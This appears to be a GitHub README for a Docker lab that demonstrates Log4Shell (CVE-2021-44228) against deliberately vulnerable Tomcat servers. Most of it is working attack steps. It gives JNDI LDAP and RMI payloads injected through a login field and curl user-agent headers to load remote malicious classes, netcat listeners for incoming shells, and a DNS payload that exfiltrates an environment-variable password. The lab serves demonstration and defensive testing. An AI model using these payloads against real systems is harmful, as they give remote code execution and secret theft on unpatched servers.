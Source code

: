 # log4j-poc

## An LDAP RCE exploit for CVE-2021-44228 Log4Shell 

### Description

The demo Tomcat 8 server on port 8080 has a vulnerable app (log4shell) deployed on it and the server also vulnerable via user-agent attacks.

The remote exploit app in this demo is based on that found at https://github.com/kozmer/log4j-shell-poc

This demo tomcat server (Tomcat 8.5.3, Java 1.8.0u51) has been reconfigued to use Log4J2 for logging - a non-standard configuration.

A newer Bitnami server is now available on port 8888. It is also is configured for Log4J2 logging and is running Tomcat 9.0.55 and OpenJDK 11.0.13.

The RMI exploit against the Tomcat 9 / Java 11 server is described here: https://www.veracode.com/blog/research/exploiting-jndi-injections-java (Jan 3, 2019) by Michael Stepankin

The detection script will check for user-agent vulnerablities and is from here: https://gist.github.com/byt3bl33d3r/46661bc206d323e6770907d259e009b6
 

### Prerequisites

This code requires Docker and Docker Compose

### Installation

``` 
git clone https://github.com/cyberxml/log4j-poc
cd log4j-poc
# edit docker-compose.yml to addjust the environment variables as needed.
#   POC_ADDR is the address of the cve-poc container
#   LISTENER_ADDR is the address of the 'nc' listener e.g. the docker host
# The listener IP address is the address of the machine on which you will run the netcat 'nc' listener
# This can be the local IP of the docker hostmachine.
docker-compose build
```

### Run Web App Attack Demo

1. Setup your docker listener in the first terminal
    1. `nc -lv 10.10.10.31 9001`
1. Start the docker containers in a second terminal
    1. `docker-compose up`
1. Navigate to the web app on port 8080
    1. Navigate to http://10.10.10.31:8080/log4shell
        1. Enter the username: `admin`
        1. Enter the password: `password`
        1. Select the "login" button
        1. See the welcome screen 
    1. Return to login at http://10.10.10.31:8080/log4shell
        1. Enter the username `${jndi:ldap://172.16.238.11:1389/a}`
        1. Select the "login" button
        1. Check for connection on your `nc` listener

### Run a User Agent Attack Demo

1. Setup your docker listener in the first terminal
    1. `nc -lv 10.10.10.31 9001`
1. Start the docker containers in a second terminal
    1. `docker-compose up`
1. In a third terminal, run the following. The second IP is the docker host
    1. `curl -A "\${jndi:ldap://172.16.238.11:1389/a}" http://10.10.10.31:8080`

### Run a DNS Exfil Demo on Recent Java 11 version

1. Start the docker containers in a terminal
    1. `docker-compose up`
1. In a second terminal, run the following. The IP is the ip address of the docker host
    1. `curl -A "\${jndi:dns://10.10.10.31/\${env:POC_PASSWORD}}" http://10.10.10.31:8888/log4shell/`
1. The vulnerable web server will attempt to do a TXT lookup at the given IP. See log4j-dns_exfil.pcap


### Run an RMI RCE Demo on Recent Java 11 version

I am having issues with command line arg for ping target. So you have to compile yourself.

#### Compile 
1. Start the docker containers in a terminal
    1. `docker-compose up`
1. In another terminal, Login to the cve-poc
    1. `docker exec -it log4j-poc_cve-poc_1 /bin/bash`
1. Kill running RMIServerPOC instance
1. Change to rmi-poc directory
    1. `cd /home/user/rmi-poc`
1. Edit RMIServerPOC.java to change 10.10.10.31 to your ping target
1. Recompile
    1. `javac -cp catalina.jar:. RMIServerPOC.java`
1. Run the Server
    1. `javac -cp catalina.jar:. RMIServerPOC 127.0.0.1`

#### Run RMI RCE Demo

1. Start the docker containers in a terminal
    1. `docker-compose up`
1. In a second terminal, run the following. The IP is the ip address of the docker host
    1. `curl -A "\${jndi:rmi://172.16.238.11:1097/Object}" http://10.10.10.31:8888/`
1. The vulnerable web server will download a serialized malicious class from the RMI server for a class which already exists in the Tomcat environment.
1. This will ping the IP address defined in the compile section. 


### Detect UA Vulnerability
1. cd scripts
1. `python3 log4j_rce_check.py http://10.10.10.31:8080/log4shell --attacker-host 10.10.10.31:11389 --timeout=2`
1. you will have to kill the process, not sure yet why this hangs

